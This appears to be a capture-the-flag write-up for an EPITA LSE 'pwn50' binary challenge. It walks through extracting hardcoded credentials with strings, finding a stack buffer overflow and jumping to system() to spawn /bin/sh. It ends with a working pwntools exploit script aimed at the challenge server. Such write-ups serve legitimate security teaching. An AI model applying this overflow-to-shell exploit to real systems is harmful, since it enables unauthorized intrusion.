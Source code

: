 LSE Challenge Link: https://ctf.lse.epita.fr/ex/55/ (a copy is in the current repository as well)

This challenge was part of the online wargame linked above and  was relatively easy to complete but provided a good review of the fundamentals. 

To start off we check the file headers on the binary,

![header](header.PNG)

We can see that the file isn't stripped which makes this challenge less cumbersome. 
Next we check the properties of the binary. 

![rabin2](rabin2.PNG)

Hmm, no ALSR but can't really tell much from here. Let's run the binary to see what this challenge is about.

![password](password.PNG)

Ah we need a username, well before we dive into the assembly, lets see if we can get the username and password
an easier way. By running strings. 

![strings](strings.PNG)

Huh, admin and T6OBSh2i look interesting. Let's try those.

![login](login.PNG)

Great we are in. Lets see what this binary can do.

![choice1](choice1.PNG)

![choice2](choice2.PNG)

Hmmmm, seems like we can't execute commands. Time to dive into the binary. 
Running radare2 on the binary we can see some interesting functions

![afl](afl.PNG)

Lets check out the execcmd function.

![r2execcmd](r2execcmd.PNG)

Huh, interesting. There doesn't seem to be a way of running systems, dword[local_4h] is set to 0 at the beginning of the 
function and there isn't a way to change it. Seems like we need to find another way in. Since this challenge is only 50 points, let's try some common vunerablities. Let's enter a lot of characters for the read function. 

![overflow](overflow.PNG)

This looks promising. It places our large input on the stack and you can see that it overwrites RSP and RBP as well as RSI.
Let's try exiting the program to see what happens, since the return value is on the stack when we exit it should segfault. 

![segfault](segfault.PNG)

Ah, just as we thought it segfaulted. Now we have the ability to execute code. To get the flag we need the return function
to jump to the system function call and get us a shell. Well, we can find the address of system in gdb and use that address 
appended onto an offset to jump to the system call. 

Here is the system call

![system](system.PNG)

And here is the size of the buffer

![buffer](buffer.PNG)

And it looks like the offset should be around 0x50 which is around 80 characters, adding 4 for ebp and 4 for esp, it should be
an offset of 88. But wait, we need to remember that the system call takes a string arguement to run when called. We need to set up the system stack with our shell command, in this case /bin/sh, so that when we call it that command will run. 

This leads to the following python code

```
#LSE Pwn50 

from pwn import *

#p = process ('./pwn50')

p = remote('ctf.lse.epita.fr',52190)

p.recv()
p.sendline('admin')

p.recv()
p.sendline('T6OBSh2i')

p.recv()
p.sendline('1')

p.recv()
p.sendline('/bin/sh')

p.recv()
p.sendline("A"*88 + p64(0x0040084f))

p.recv()
p.sendline('3')

p.interactive()

```

Hope this was informative






